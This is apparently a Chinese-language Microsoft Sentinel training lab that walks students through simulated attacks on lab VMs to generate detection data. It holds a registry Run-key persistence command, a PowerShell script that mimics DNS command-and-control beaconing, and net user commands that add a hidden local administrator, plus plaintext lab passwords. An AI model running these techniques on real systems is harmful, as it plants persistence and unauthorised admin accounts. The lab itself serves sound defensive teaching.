```yaml
---
lab:
    title: '练习 5 - 进行攻击'
    module: '模块 7 - 使用 Microsoft Sentinel 创建检测并执行调查'
---
```


# 模块 7 - 实验室 1 - 练习 5 - 进行攻击


### 任务 1：攻击配置了 Defender for Endpoint 的 Windows。

在此任务中，你将在配置了 Microsoft Defender for Endpoint 的主机执行攻击。

1. 使用以下密码以管理员身份登录到 WIN1 虚拟机：**Pa55w.rd**。  

2. 在任务栏的搜索框中，输入“*Command*”。  命令提示符将显示在搜索结果中。  右键单击命令提示符，并选择“**以管理员身份运行**”。在出现的“**用户帐户控件**”窗口中选择“**是**”，以允许应用运行。

3. 在命令提示符中，在每一行中输入命令，并在每一行后按 Enter 键：

```Command
cd \
mkdir temp
cd temp
```
4. 攻击 1 - 复制并运行此命令：

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻击 3 - 复制并运行此命令：

```Command
notepad c2.ps1
```
选择“**是**”来创建一个新文件，并将下面的 PowerShell 脚本复制到 *c2.ps1* 中。

>**备注**：粘贴到虚拟机中的内容可能有长度限制。如果无法直接从说明中复制，请将此代码分为三部分进行粘贴，以便将所有脚本粘贴到虚拟机中。  确保脚本在记事本 *c2.ps1* 文件中的外观与在这些说明中一致。

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)

$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
         $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }

    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

在“**记事本**”菜单中，选择“**文件**”，然后选择“**保存**”。在“命令提示符”窗口中，在每一行中输入以下命令，并在每一行后按 Enter 键。**备注**：你将看到解析错误。这在预料之中。

```Command
powershell
.\c2.ps1
```

>**重要提示**：请勿关闭此窗口。让此命令/powershell 脚本在后台运行。该命令需要在数小时内生成日志条目。在此脚本运行期间，你可以继续进行下一项任务和下一个练习。此任务创建的数据稍后将在威胁搜寻中使用。此过程不会创造大量的数据或处理。


### 任务 2：攻击配置了 Sysmon 的 Windows

在此任务中，你将在配置了安全事件连接器和 Sysmon 的主机上执行攻击。

1. 以管理员身份使用密码登录到 WIN2 虚拟机：**Pa55w.rd**。  

2. 在任务栏的搜索框中，输入“*CMD*”。 命令提示符将显示在搜索结果中。  右键单击命令提示符，并选择“**以管理员身份运行**”。  接收显示的任何用户帐户控制提示。

3. 在命令提示符中，在每一行中输入命令，并在每一行后按 Enter 键：

```Command
cd \
mkdir temp
cd \temp
```

4. 攻击 1 - 将此命令复制到命令提示符应用并运行此命令：

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

>**备注**：我们使用的是与 WIN1 中相同的持久性策略，但我们将在下一练习中使用其他检测。

5. 攻击 2 - 复制并运行此命令，在每一行中输入命令，并在每一行后按 Enter 键：

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

## 转到练习 6
